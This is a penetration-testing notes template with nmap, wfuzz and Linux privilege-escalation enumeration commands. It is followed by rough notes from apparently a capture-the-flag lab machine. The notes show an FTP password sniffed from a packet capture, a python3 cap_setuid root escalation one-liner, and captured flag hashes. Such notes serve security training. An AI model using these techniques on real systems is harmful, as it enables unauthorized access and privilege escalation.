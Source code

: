 <font color="green">=======================================================================</font>
# Initial Information<font color="red">:</font> 
<font color="blue">=======================================================================</font>

Name | IP Address | Tech Stack | Web Server | DB
-- | -- | -- | -- | --
-- | -- | -- | -- | --


<hr>

### Loot - Credentials<font color="red">:</font> 

**User** | **Password** | **System**
-- | -- | --
-- | -- | --

<hr>

<font color="green">=======================================================================</font>
# Enumeration
<font color="green">=======================================================================</font>

##### <font color="red">[+]</font> SERVICES<font color="red">:</font> 
- HTTP - <font color="red">XX</font> 

##### <font color="red">[+]</font> NMAP<font color="red">:</font> 

List all ports.
```bash
sudo nmap $IP -p- -sS --min-rate 5000 -Pn -n -v

PORT   STATE SERVICE
```

Services and version on identified open ports.
```bash 
nmap $IP -p XXX -sCV -oN enum/nmap -v

PORT   STATE SERVICE VERSION
```


<hr>

##### <font color="red">[+]</font> WFUZZ

###### FILES: <font color="red">/</font>(Web Root)
```bash
wfuzz -c --hc 404 --hh 0 -u http://$IP/FUZZ  -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -t 200

# Results:
=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================
```

###### DIRECTORIES: <font color="red">/</font>(Web Root)
```bash
wfuzz -c --hc 404 --hh 0 -u http://$IP/FUZZ/  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 200

Results:
=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================
```

<hr>

<font color="green">=======================================================================</font>
# Post Exploitation
<font color="green">=======================================================================</font>

##### <font color="red">[+]</font> PrivEsc Notes<font color="red">:</font> 


##### <font color="red">[+]</font> System Enumeration<font color="red">:</font> 

- **Host**:
- **Compilation version and architecture**:


##### <font color="red">[+]</font> List Interesting Directories<font color="red">:</font> 

- **/tmp**:
- **/opt**:
- **/var/tmp**:
- **/dev/shm**:
- **/var/backups/**:
- **/var/mail**:

##### <font color="red">[+]</font> S/GUIDS<font color="red">:</font> 

- SUIDs:
```bash
find / -perm -u=s -type f 2>/dev/null
```

##### <font color="red">[+]</font> ROOT Processes (ps) <font color="red">:</font> 
```bash
ps aux | grep -i root --color
```

##### <font color="red">[+]</font> Local Network Services (netstat/ss)<font color="red">:</font> 
```bash
# (or ss if netstat not available)
netstat -tunlp | grep '127.0.0.1' --color=auto
netstat -antup | grep '127.0.0.1' --color=auto
```

##### <font color="red">[+]</font> I/O - PsPy<font color="red">:</font> 
```bash
``` 

```bash
tshark -r captura.cap | grep -i pass
 tshark -r captura.cap | grep -i pass
10.10.10.245
tshark -r captura.cap | grep -i pass
   38   4.126630 192.168.196.16 → 192.168.196.1 FTP 90 Response: 331 Please specify the password.
   40   5.424998 192.168.196.1 → 192.168.196.16 FTP 78 Request: PASS Buck3tH4TF0RM3!
tshark -r captura.cap | grep -i user
   36   4.126500 192.168.196.1 → 192.168.196.16 FTP 69 Request: USER nathan
ftp $ip
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:ass): nathan
notas
python3
import os
os.setuid(0)
os.system("bash")
9bf59526f5feb3a25eb2aed05c7a03e8
 getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
cat root.txt 
9109dc71a1ff3b3abb6f38264682c671


